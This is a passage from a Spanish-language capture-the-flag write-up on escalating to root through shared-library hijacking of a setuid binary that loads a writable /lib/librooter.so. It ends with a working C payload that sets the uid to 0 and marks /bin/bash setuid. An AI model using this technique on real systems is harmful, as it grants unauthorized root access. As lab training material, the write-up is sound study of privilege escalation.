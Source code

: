 ```
eleanor@random:/home/alan$ cat root.h 
void makemeroot();
```

Y el archivo compilado **rooter.o** que al leerlo muestra:

```
eleanor@random:/home/alan$ cat rooter.o 
ELF>@@
NHH=]SUCCESS!! But I need to finish and implement this functionGCC: (Debian 8.3.0-6) 8.3.0zRAC

+rooter.cmakemeroot_GLOBAL_OFFSET_TABLE_puts

                                             .symtab.strtab.shstrtab.rela.text.data.bss.rodata.comment.note.GNU-stack.rela.eh_frame @@80
&SS1X90BWR@h
 
 	0aeleanor@random:/home/alan$ file rooter.o 
rooter.o: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), not stripped
```
Parece que la función `makemeroot` no está implementada.

Si miro el archivo con _file_, veo que es un binario ejecutable de 64 bits, que al ejecutarlo se hace bajo el contexto de los privilegios del propietario y el grupo (root), ya que tiene **setuid** y **setgid** activos y que está vinculado a librerías compartidas.

![](https://eidd3.github.io/assets/img/randomnoob/filerandom.png)

#### Library Hijacking (?)

Esto último lo hace vulnerable a **Library Hijacking**, ya que si se puede modificar desde qué ruta carga las librerías, se puede crear un código malicioso para que, cuando se ejecute el programa como root, le cambie los permisos a la **bash** por ejemplo.

Si miro las librerías compartidas con **ldd**, veo que hace uso de _librooter.so_ y lo carga desde _/lib/librooter.so_ 

![](https://eidd3.github.io/assets/img/randomnoob/lddrandom.png)

Para cambiar el orden de carga, tengo que ver si tengo permisos de escritura en **/etc/ld.so.conf.d** que es el directorio que contiene los archivos de configuración para establecer la ruta de carga de las librerías.

Pero no puedo escribir en ese directorio.

Pero si miro en **/lib**, que es de donde el binario **random** carga la librería, sí puedo escribir.

Entonces lo que tengo que hacer es crear un archivo en **C** que implemente la función **makemeroot()**. Así, cuando lo compile, se llamará **librooter.so**, que es la biblioteca que carga el binario **random**. De esta manera, podré obtener permisos setuid y ejecutar un shell como root.

_exploit.c_:
```C
#include <unistd.h>
#include <stdlib.h>

void makemeroot()
{
        setuid(0);
        setgid(0);
        system("chmod u+s /bin/bash");
}
```
